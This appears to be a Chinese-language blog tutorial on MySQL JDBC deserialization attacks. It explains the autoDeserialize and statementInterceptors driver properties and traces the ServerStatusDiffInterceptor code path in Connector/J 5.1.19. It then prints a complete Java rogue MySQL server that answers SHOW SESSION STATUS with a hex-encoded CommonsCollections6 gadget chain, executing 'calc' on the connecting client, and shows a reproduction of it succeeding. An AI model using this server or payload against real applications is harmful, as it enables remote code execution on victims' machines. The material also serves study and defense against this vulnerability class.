






# 原理

攻击者通过控制 **JDBC 连接串**将应用指向**恶意数据库服务端**，并由恶意服务端返回特制的序列化数据，诱导 JDBC 驱动在客户端**反序列化**不可信数据，进而造成远程代码执行、信息泄露等安全危害的漏洞。在不同数据库驱动场景下打法也会有所不同，今天我们的主题就是mysql驱动场景下的jdbc反序列化。


# 演示环境

Java版本：JDK8u202

Mysql驱动版本：5.1.19

其他依赖：commons-collections-3.2.1


# 前置知识

## 1. autoDeserialize

`autoDeserialize` 是 **Connector/J (mysql官方驱动)** 的**连接属性**，默认为false，且我们可以在JDBC连接串里手动开启它。

```
jdbc:mysql://127.0.0.1:3306/test&autoDeserialize=true
```

它的作用是，驱动是否要自动识别并反序列化存在 BLOB 字段里的对象。BLOB是MySql的一种数据类型，用于存储二进制大对象数据。

这个功能主要体现在ResultSetImpl类的getObject方法上，ResultSetImpl来自mysql的驱动jar包。我们利用getObject获取某列的数据时，如果该列的数据类型为**BLOB**，开启了autoDeserialize，并且取到的字节前两字节是 `AC ED`，那么mysql驱动会去反序列化该数据。


## 2. statementInterceptors

`statementInterceptors` 是 **MySQL Connector/J** 提供的一个连接属性，允许你在 JDBC 层面对 SQL 语句的执行进行拦截和增强。它的值是实现了StatementInterceptor接口的类的全限定名。

```
jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=org.example.MyInterceptor
```

重点在于StatementInterceptor接口的preProcess方法，它会在SQL语句即将发送给 MySQL 服务器时被 MySQL 驱动调用。

小Tips：MySQL驱动第一次和MySQL服务器建立连接时，会执行一些SQL语句来进行初始化。也就是说，只要配置了拦截器，那么在建立连接那一刻preProcess就已经执行了。


# 源码分析

## ServerStatusDiffInterceptor

`ServerStatusDiffInterceptor`是mysql驱动里提供的一个类，实现了`StatementInterceptor`接口，并实现了其中的 `preProcess` 方法。

```java showLineNumbers startLineNumber=38 title="ServerStatusDiffInterceptor.java"
public class ServerStatusDiffInterceptor implements StatementInterceptor {
```

我们重点讲解 `preProcess` 方法。有一个if分支，connection.versionMeetsMinimum(5, 0, 2)表示mysql服务器的版本是否大于5.0.2，如果是则进入分支，执行`populateMapWithSessionStatusValues`方法。

```java showLineNumbers startLineNumber=88 title="ServerStatusDiffInterceptor.java"
	public ResultSetInternalMethods preProcess(String sql,
			Statement interceptedStatement, Connection connection)
			throws SQLException {

		if (connection.versionMeetsMinimum(5, 0, 2)) {
			populateMapWithSessionStatusValues(connection,
					this.preExecuteValues);
		}

		return null; // we don't actually modify a result set
	}
```

接下来进入到`populateMapWithSessionStatusValues`方法。执行了 **SHOW SESSION STATUS** SQL语句，随后将结果集rs传给`Util.resultSetToMap`方法。

```java showLineNumbers startLineNumber=38 title="ServerStatusDiffInterceptor.java"
			rs = stmt.executeQuery("SHOW SESSION STATUS");
			Util.resultSetToMap(toPopulate, rs);
```

继续跟进Util.resultSetToMap方法。发现其调用了getObject方法来获取rs结果集的数据。

```java showLineNumbers startLineNumber=496 title="Util.java"
	public static void resultSetToMap(Map mappedValues, java.sql.ResultSet rs)
			throws SQLException {
		while (rs.next()) {
			mappedValues.put(rs.getObject(1), rs.getObject(2));
		}
	}
```

至此链条已通。我们只需要在JDBC连接串里开启autoDeserialize，指定拦截器为ServerStatusDiffInterceptor类，并且将数据库地址指定为我们的恶意数据库，当我们的恶意数据库收到 **SHOW SESSION STATUS** 查询请求时，返回一个伪造的结果集，类型为Blob，内容为精心准备的序列化数据，就可以触发 Java 反序列化，进而执行任意代码。

大致链路如图所示。



但是又出现了一个问题，SHOW SESSION STATUS 的结果集并不是从某张表查询的，而是根据服务器状态实时构建的，固定为两列，且类型均为varchar，是不能人为去修改的。



因此我们只能手动去实现一个Socket应用（FakerMySQL），模仿MySQL的通信过程，当接收到SHOW SESSION STATUS请求时，手动构造MySQL协议包，来返回恶意序列化数据。


# MySQL协议

具体教学请参考官方 [MySQL：协议基础 --- MySQL: Protocol Basics](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_basics.html)





# FakeMySQL

这里用Java Socket编程手动模拟了MySQL的通信协议，在检测到SHOW SESSION STATUS请求时返回恶意结果集。

这里用的是CC6链，执行的命令是calc。

```java
package org.example.proxy;

import java.io.DataInputStream;
import java.io.EOFException;
import java.io.IOException;
import java.io.OutputStream;
import java.net.ServerSocket;
import java.net.Socket;


public class FakeMySql {

    //服务端GREETING包
    static final byte[] GREETING = hex(
            "4a0000000a352e372e32360007000000492236612e311f2e00fff7c00200ff81150000000000000000000015721a453a284f26390e3951006d7973716c5f6e61746976655f70617373776f726400");

    //Response OK 包
    static final byte[] OK = hex("0700000200000002000000");

    //结果集包
    static final byte[] RESULT = hex(
                        "010000010223000002036465660000000d5661726961626c655f6e616d65000c2100ff000000fd00000000001b000003036465660000000556616c75" +
            "65000c3f00ffffff00fc900000000005000004fe00000200e60400050178fce104aced0005737200116a6176612e7574696c2e48617368536574ba44" +
            "859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e" +
            "6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c" +
            "00036d617074000f4c6a6176612f7574696c2f4d61703b787074000570776e65647372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c" +
            "656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f" +
            "6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c65637469" +
            "6f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d6572737400" +
            "2d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170" +
            "616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72" +
            "672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690" +
            "114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078" +
            "707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f72" +
            "6d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400" +
            "124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b787075720013" +
            "5b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e" +
            "6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c" +
            "616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e00180000000074000669" +
            "6e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013" +
            "7571007e00180000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e49" +
            "6e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b02000078700000" +
            "0001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478" +
            "703f4000000000000c7708000000100000000078787805000006fe00000200");

    public static void main(String[] args) throws Exception {
        int port = args.length > 0 ? Integer.parseInt(args[0]) : 3307;
        try (ServerSocket server = new ServerSocket(port)) {
            System.out.println("[fake] listening on " + port);
            while (true) {
                try {
                    Socket socket = server.accept();
                    new Thread(() -> serve(socket)).start();
                } catch (IOException ignored) {
                }
            }
        }
    }

    static void serve(Socket socket) {
        try (Socket s = socket) {
            OutputStream out = s.getOutputStream();
            DataInputStream in = new DataInputStream(s.getInputStream());

            out.write(GREETING);
            out.flush();
            if (read(in) == null) {
                return;                     // 登录包
            }

            out.write(OK);
            out.flush();

            byte[] p = read(in);            // 第一条命令（show session）
            if (p == null) {
                return;
            }

            if (p.length > 4 && (p[4] & 0xFF) == 0x03) {   // COM_QUERY
                out.write(RESULT);
                out.flush();
            }
            System.out.println("命中 fake mysql");
        } catch (Exception ignored) {
        }
    }

    /** 读一个 MySQL 包：4 字节头 + payload */
    static byte[] read(DataInputStream in) throws IOException {
        byte[] header = new byte[4];
        try {
            in.readFully(header);
        } catch (EOFException e) {
            return null;
        }
        int len = (header[0] & 0xFF) | ((header[1] & 0xFF) << 8) | ((header[2] & 0xFF) << 16);
        byte[] packet = new byte[4 + len];
        System.arraycopy(header, 0, packet, 0, 4);
        in.readFully(packet, 4, len);
        return packet;
    }

    static byte[] hex(String s) {
        byte[] b = new byte[s.length() / 2];
        for (int i = 0; i < b.length; i++) {
            b[i] = (byte) Integer.parseInt(s.substring(i * 2, i * 2 + 2), 16);
        }
        return b;
    }
}

```

# 复现

运行FakeMySql，监听在3307



在jdbc连接串指定ServerStatusDiffInterceptor拦截器，开启autoDeserialize。然后用getConnection发起连接。



运行，成功执行calc命令


